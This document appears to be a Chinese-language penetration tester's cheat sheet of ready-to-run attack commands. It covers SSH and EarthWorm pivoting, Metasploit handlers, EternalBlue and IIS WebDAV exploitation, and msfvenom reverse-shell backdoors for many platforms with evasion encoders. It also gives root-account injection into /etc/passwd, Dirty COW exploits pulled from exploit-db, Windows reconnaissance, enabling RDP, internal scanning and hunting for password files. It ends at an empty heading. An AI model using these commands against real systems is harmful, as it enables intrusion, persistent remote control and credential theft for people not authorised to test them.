




# 渗透师笔记

## 端口转发

### 端口转发1

目标主机A：192.168.1.100

目标主机B：10.16.10.1

`xx.xx.xx.xx:$ ssh 192.168.1.100 -rroot -D7070 -CNfg`

`192.168.1.100:$ export all_proxy=socks5://127.0.0.1:7070`

`192.168.1.100:$ curl http://10.16.10.1/key.txt`


### 端口转发2

webshell：192.168.1.100

目标主机A：10.16.10.1

`xx.xx.xx.xx:$ nc -lvvv 1234`

`192.168.1.100:$ python -c 'import pty; pty.spawn("/bin/bash")'`

`shell:$ ssh xxx@xx.xx.xx.xx -CNfg -R2222:10.16.10.1:22`

### 端口转发3

 在进行端口转发的虚拟机上执行：
 
 `ssh -N -f -L 0.0.0.0:9999:0.0.0.0:80 root@192.168.53.1`

解释：在进行端口转发的虚拟机上执行之后，会在本地开启9999端口，开启9999端口的跟转发192.168.53.1的80端口是一样的效果

### 端口转发4(EarthWorm 正向)

开启socks端口：`192.16.1.101:$ ew_linux_64 -s ssocksd -l 7788`

代理访问：`8.8.8.8:$ proxychains curl http://10.16.1.100`

```vi /etc/proxychains.conf
//将socks4  127.0.0.1 9050改为
socks5  192.16.1.101 7788  //1080改为你自己的端口
```

[内网端口转发及穿透（合集）](https://xz.aliyun.com/t/142#toc-10)

## Metasploit

### 等待上线

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_http
payload => windows/x64/meterpreter/reverse_http
msf5 exploit(multi/handler) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf5 exploit(multi/handler) > set lport 99
lport => 99
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[-] Handler failed to bind to 10.0.0.1:99
[*] Started HTTP reverse handler on http://0.0.0.0:99
```

> nc

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload/cmd/unix/reverse_netcat
msf5 exploit(multi/handler) > set lhost 192.168.0.102
msf5 exploit(multi/handler) > set LPORT 4444
msf5 exploit(multi/handler) > exploit -j
```

### CVE-2017-7269

> 漏洞介绍：Windows Server 2003R2版本IIS6.0的WebDAV服务中的ScStoragePathFromUrl函数存在缓存区溢出漏洞，远程攻击者通过以`If: <http://`开头的长header PROPFIND请求，执行任意代码。

使用模块：`https://github.com/zcgonvh/cve-2017-7269`



设置反弹 shell 的监听 payload ：`set payload windows/meterpreter/reverse_tcp`



查看配置参数：（被攻击和本机IP）



开始攻击：（成功返回shell）



### MS17-010

```
$ msf > use exploit/windows/smb/ms17_010_eternalblue
$ msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
$ msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 172.16.214.140
rhost => 172.16.214.140(攻击IP)
$ msf exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.2.130
lhost => 192.168.2.130(反射IP)
$ msf exploit(windows/smb/ms17_010_eternalblue) > exploit

# 权限维持
$ msf > migrate PID
```

### msfvenom 生成后门

端口尽量使用 `4444`，因为handler模块监听的所有payload【或者不夸张地说MSF中所有payload】监听&开放端口都为4444，这样可以省去之后很多端口设置

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe`

#### windows:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```
#### mac:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
```

#### android:
```bash
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

#### powershell:
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

#### linux:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

#### php:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

#### aspx:
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
#### jsp:
```bash
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

#### war:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

#### nodejs:
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

#### python:
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

#### perl:
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```
#### ruby:
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

#### lua:
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

#### windows shellcode:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

#### linux shellcode:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

#### mac shellcode:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

#### C# shellcode

```
# shellcodelauncher.cs

msfvenom -a x86_64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f csharp

cmd-> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs

```


```
msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp_uuid LHOST=10.0.0.1 LPORT=99 -b '\x00' -e x86/xor -i 10 -f csharp

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp_uuid
msf5 exploit(multi/handler) > set enablestageencoding true
enablestageencoding => true
msf5 exploit(multi/handler) > set stageencod x86/xor
stageencod => x86/xor
msf5 exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf5 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf5 exploit(multi/handler) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf5 exploit(multi/handler) > set lport 99
lport => 99
```

#### nc bash 

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.12.109 port=4444 R
```

```
msfvenom -p cmd/unix/reverse_bash lhost=192.168.0.102 port=4444 R
```

### 路由设置

```
# 查看属于那个网段
meterpreter >run get_local_subnets 
# 查看自动路由表
meterpreter > run autoroute -p
# 添加路由表
meterpreter > run autoroute -s 192.168.6.1/24

```

### socks4a

```
meterpreter > background
[*] Backgrounding session 3...
msf5 auxiliary(scanner/portscan/tcp) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > show options
msf5 auxiliary(server/socks4a) > set srvport 110
msf5 auxiliary(server/socks4a) >  exploit -y
```

### 参考

[记一份基础Metasploit教程](https://xz.aliyun.com/t/3007)

## 提权

利用find查找具有suid权限的文件：`find /usr/bin -perm -u=s`

* 利用vim进行提权，在/etc/passwd文件中添加一个账号

```
$ openssl passwd -1 -salt abc testpassword
$1$abc$QZHPQSR42L2Df4.wdBnlP0

$ echo 'test:$1$abc$QZHPQSR42L2Df4.wdBnlP0:0:0:aa:/:/bin/sh' >> /etc/passwd
```

* 利用计划任务CRON进行提权

```
$ echo '#!/bin/bash' > backup.sh
$ echo 'echo "test:\$1\$abc\$QZHPQSR42L2Df4.wdBnlP0:0:0:aa:/:/bin/sh" >> /etc/passwd' >> backup.sh
```

### 脏牛(dirty cow)

`$ (uname -s; uname -m; uname -r; uname -v) | curl -s https://api-ksplice.oracle.com/api/1/update-list/ -L -H "Accept: text/text" --data-binary @- | grep CVE | tr ' ' '\n' | grep -o -E 'CVE-[0-9]+-[0-9]+' | sort -r -n | uniq | grep CVE-2016-5195`

> 存在gcc


```bash
$ curl https://www.exploit-db.com/exploits/40839 > exp.c

$ gcc -pthread exp.c -o exp -lcrypt

$ ./exp 
...会提示输入 firefart 账号的密码

$ su firefart

$ mv /tmp/passwd.bak /etc/passwd
...恢复账号设置

```

> 存在g++


```bash
$ curl https://www.exploit-db.com/exploits/40847 > exp.cpp

$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o exp exp.cpp -lutil

$ ./dcow -s 

<还原账号文件>

$ echo 0 > /proc/sys/vm/dirty_writeback_centisecs

$ cp /tmp/.ssh_bak /etc/passwd

$ rm /tmp/.ssh_bak

```


### CMD指令集

```
# 用户是否在线
$ query user

# 查看当前权限
$ whoami

# 查看当前进程列表
$ tasklist

# 获取主机信息及补丁
$ systeminfo

# 查看环境变量
$ set

# 账号列表
$ net user

# 获取本地用户组
$ net localgroup

# 获取本地管理员信息
net localgroup administrators

# 显示正由指定的计算机共享的域、计算机或资源的列表
$ net view

# 查看有多少个域
$ net view /domain

# 结束进程
$ taskkill /pid [id] -t -f
$ taskkill /im "cmd.exe"

# 打印路由表
$ route print 

# 查看端口开发情况
$ netstat -an | findstr "LISTENING"

# 搜索txt文件中含有pass字符的文件
$ findstr /m /i /s "pass" *.txt

``` 


```
# win开启3389
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

## 后渗透

### 端口扫描

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > route add 192.168.6.0 255.255.255.0 1
[*] Route added
msf5 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.6.0        255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
msf5 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target address range or CIDR identifier
   THREADS      1                yes       The number of concurrent threads
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf5 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.6.0/24
rhosts => 192.168.6.0/24
msf5 auxiliary(scanner/portscan/tcp) > set ports 22-25,80-85,1433,3306,3389,445,135,139
ports => 22-25,80-85,1433,3306,3389,445,135,139
msf5 auxiliary(scanner/portscan/tcp) > set threads 10
threads => 10
msf5 auxiliary(scanner/portscan/tcp) > exploit
```

### 敏感文件收集

`dir d:\ e:\ /s /b | find "config.properties"`

`for /r TestDir %i in (*) do @echo %i`

```
config.properties
database.properties
my.cnf
C:\WINDOWS\System32\Drivers\Etc
```

### 防火墙及杀软名单


